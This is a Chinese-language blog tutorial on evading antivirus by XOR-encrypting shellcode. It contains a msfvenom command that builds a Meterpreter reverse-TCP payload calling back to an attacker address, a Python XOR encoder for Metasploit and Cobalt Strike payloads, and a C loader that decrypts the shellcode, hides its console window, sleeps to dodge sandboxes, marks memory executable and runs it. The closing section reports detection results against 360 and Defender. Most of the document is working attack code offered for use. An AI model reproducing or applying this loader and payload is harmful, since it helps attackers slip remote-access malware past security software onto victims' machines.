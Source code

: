 ```yaml
---
title: 基于对shellcode进行异或免杀
tags:
  - 免杀
---
```

### 基于对shellcode进行异或免杀

**PS:感谢倾旋大佬，**[ascotbe](https://www.secpulse.com/newpage/author?author_id=26488)**大佬的分享**

#### 0x01 环境配置

Win10 x64

Vs2019

Python 2.7.18

CS4.0

Msf

生成payload：

Msf：

| msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.176.129 LPORT=4444 -o payload.bin |
|---------------------------------------------------------------------------------------------|

#### 0x02 免杀原理

先对shellcode进行异或加密然后在代码中解密

#### 0x03 制作加密shellcode

使用倾旋大佬的代码进行xor加密

    import sys from argparse 
    import ArgumentParser, FileType

    def process_bin(num, src_fp, dst_fp, dst_raw):
        shellcode = ''
        shellcode_size = 0
        shellcode_raw = b''
        try:
            while True:
                code = src_fp.read(1)
                if not code:
                    break

                base10 = ord(code) ^ num
                base10_str = chr(base10)
                shellcode_raw += base10_str.encode()
                code_hex = hex(base10)
                code_hex = code_hex.replace('0x','')
                if(len(code_hex) == 1):
                code_hex = '0' + code_hex
                shellcode += '\\x' + code_hex
                shellcode_size += 1
            src_fp.close()
            dst_raw.write(shellcode_raw)
            dst_raw.close()
            dst_fp.write(shellcode)
            dst_fp.close()
            return shellcode_size
        except Exception as e:
        sys.stderr.writelines(str(e))

    def main():
        parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
        parser.add_argument('-v','--version',nargs='?')
        parser.add_argument('-s','--src',help=u'source bin file',type=FileType('rb'), required=True)
        parser.add_argument('-d','--dst',help=u'destination shellcode file',type=FileType('w+'),required=True)
        parser.add_argument('-n','--num',help=u'Confused number',type=int, default=90)
        parser.add_argument('-r','--raw',help=u'output bin file', type=FileType('wb'), required=True)
        args = parser.parse_args()
        shellcode_size = process_bin(args.num, args.src, args.dst, args.raw)
        sys.stdout.writelines("[+]Shellcode Size : {} \n".format(shellcode_size))

    if __name__ == "__main__":

        main()

执行如下命令获取payload.c 即shellcode

    python xorencode.py -s msf-payload.bin -d msf-payload.c -n 10 -r 123.txt 
    python xorencode.py -s cs-payload.bin -d cs-payload.c -n 10 -r cs-123.txt

生成结果如下：

![](https://fifteenblackslime.github.io/assets/pic/media2/0da9dfef4e4086c0e20a613b270507c7.png)

Payload.c内容为：

![](https://fifteenblackslime.github.io/assets/pic/media2/53d890566ef4831276da8a6585f37a7c.png)

#### 0x04 使用vs2019进行解密打包生成exe

倾旋大佬的代码及思路：

    申请内存时，一定要把控好属性，可以在Shellcode读入时，申请一个普通的可读写的内存页，然后再通过VirtualProtect改变它的属性-\> 可执行
具体代码如下：

    #include <Windows.h>

    // 入口函数
    int wmain(int argc, TCHAR* argv[]) {

        ShowWindow(GetConsoleWindow(), SW_HIDE);//不显示cmd窗口

        int shellcode_size = 0; // shellcode长度
        DWORD dwThreadId; // 线程ID
        HANDLE hThread; // 线程句柄
        DWORD dwOldProtect; // 内存页属性
    /* length: 800 bytes */

        unsigned char buf[] = "生成的shellcode";


        // 获取shellcode大小
        shellcode_size = sizeof(buf);

        /* 增加异或代码 */
        for (int i = 0; i < shellcode_size; i++) {
            buf[i] ^= 10;
        }
        /*
        VirtualAlloc(
            NULL, // 基址
        800,  // 大小
            MEM_COMMIT, // 内存页状态
            PAGE_EXECUTE_READWRITE // 可读可写可执行
            );
        */

        char* shellcode = (char*)VirtualAlloc(
            NULL,
            shellcode_size,
            MEM_COMMIT,
            PAGE_READWRITE // 只申请可读可写
            //原来的属性是PAGE_EXECUTE_READWRITE
        );

        // 将shellcode复制到可读可写的内存页中
        CopyMemory(shellcode, buf, shellcode_size);

        // 这里开始更改它的属性为可执行
        VirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect);

        // 等待几秒，兴许可以跳过某些沙盒呢？
        Sleep(2000);

        hThread = CreateThread(
            NULL, // 安全描述符
            NULL, // 栈的大小
            (LPTHREAD_START_ROUTINE)shellcode, // 函数
            NULL, // 参数
            NULL, // 线程标志
            &dwThreadId // 线程ID
        );

        WaitForSingleObject(hThread, INFINITE); // 一直等待线程执行结束
        return 0;
    }

![](https://fifteenblackslime.github.io/assets/pic/media2/507a365e287579cf8ec827c9b4413056.png)

生成release版本exe

使用过程中我添加了如下代码去除cmd窗口：

    ShowWindow(GetConsoleWindow(), SW_HIDE); 

![](https://fifteenblackslime.github.io/assets/pic/media2/75c00948267dd56d986d21f999545c3e.png)

##### 0x05免杀结果

测试杀软：360，defender

通过Msf的bin文件生成exe可以通过360检测，但无法通过defender。

通过Cobalt strike的raw文件生成exe无法通过杀软。
